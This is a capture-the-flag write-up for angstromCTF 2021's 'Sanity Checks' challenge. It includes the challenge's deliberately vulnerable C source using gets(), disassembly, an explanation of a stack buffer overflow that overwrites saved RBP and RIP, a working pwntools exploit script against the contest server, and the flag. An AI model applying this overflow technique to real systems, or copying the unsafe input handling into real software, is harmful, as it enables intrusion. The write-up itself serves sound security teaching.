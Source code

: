 # Sanity Checks

I made a program (source) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at /problems/2021/sanity_checks on the shell server, or connect with nc shell.actf.co 21303.

Author: kmh

## Challenge

We are presented with a login prompt.
If we enter the correct password, the program will check some variables and, if they are set to the correct values, will print the flag.
However, none of the variables are set to the correct values initially, and the user is not prompted to change them.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            
                            FILE *f = fopen("flag.txt","r");
                            
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }
                            
                            fgets(flag, 128, f);
                            
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```

## Solution

We can see from disassembling the program that the variables it checks are at higher addresses than the buffer:

```asm
[0x004010b0]> pdf @ main
            ; DATA XREF from entry0 @ 0x4010d1
┌ 327: int main (int argc, char **argv, char **envp);
│           ; var char *format @ rbp-0xe0
│           ; var char *s1 @ rbp-0x60
│           ; var file*stream @ rbp-0x20
│           ; var uint32_t var_14h @ rbp-0x14
│           ; var uint32_t var_10h @ rbp-0x10
│           ; var uint32_t var_ch @ rbp-0xc
│           ; var uint32_t var_8h @ rbp-0x8
│           ; var uint32_t var_4h @ rbp-0x4
```

So if we overflow the buffer, we can overwrite the values stored in these variables.

Alternatively, we can just overwrite the stored RIP to jump inside the main function after these tests, so that we skip them and print the flag.
This is the method used in the exploit script below.

```asm
│  ││││││   0x0040125a      488d35200e00.  lea rsi, [0x00402081]       ; "r" ; const char *mode
│  ││││││   0x00401261      488d3d1b0e00.  lea rdi, str.flag.txt       ; 0x402083 ; "flag.txt" ; const char *filename
│  ││││││   0x00401268      e823feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│  ││││││   0x0040126d      488945e0       mov qword [stream], rax
│  ││││││   0x00401271      48837de000     cmp qword [stream], 0
│ ┌───────< 0x00401276      751b           jne 0x401293
│ │││││││   0x00401278      488d3d110e00.  lea rdi, str.Missing_flag.txt._Contact_an_admin_if_you_see_this_on_remote. ; 0x402090 ; "Missing flag.txt. Contact an admin if you see this on remote." ; const char *format
│ │││││││   0x0040127f      b800000000     mov eax, 0
│ │││││││   0x00401284      e8c7fdffff     call sym.imp.printf         ; int printf(const char *format)
│ │││││││   0x00401289      bf01000000     mov edi, 1                  ; int status
│ │││││││   0x0040128e      e80dfeffff     call sym.imp.exit           ; void exit(int status)
│ │││││││   ; CODE XREF from main @ 0x401276
│ └───────> 0x00401293      488b55e0       mov rdx, qword [stream]     ; FILE *stream
│  ││││││   0x00401297      488d8520ffff.  lea rax, [format]
│  ││││││   0x0040129e      be80000000     mov esi, 0x80               ; 128 ; int size
│  ││││││   0x004012a3      4889c7         mov rdi, rax                ; char *s
│  ││││││   0x004012a6      e8b5fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│  ││││││   0x004012ab      488d8520ffff.  lea rax, [format]
│  ││││││   0x004012b2      4889c7         mov rdi, rax                ; const char *format
│  ││││││   0x004012b5      b800000000     mov eax, 0
│  ││││││   0x004012ba      e891fdffff     call sym.imp.printf         ; int printf(const char *format)
```

This method is similar to the approach for tranquil, the previous problem, except we also need to make sure the saved RBP is overwritten such that RBP-0xe0 is writable, as this is where the flag will be read into.
To do so, we can use the data section for the binary, which is always known due to PIE being disabled.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host shell.actf.co --port 21303 checks
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('checks')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'shell.actf.co'
port = int(args.PORT or 21303)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

win = 0x0040125a
data = 0x405000

payload = flat({0x60: [data, win]})

io.sendline(payload)

io.interactive()
```

## Flag

`actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

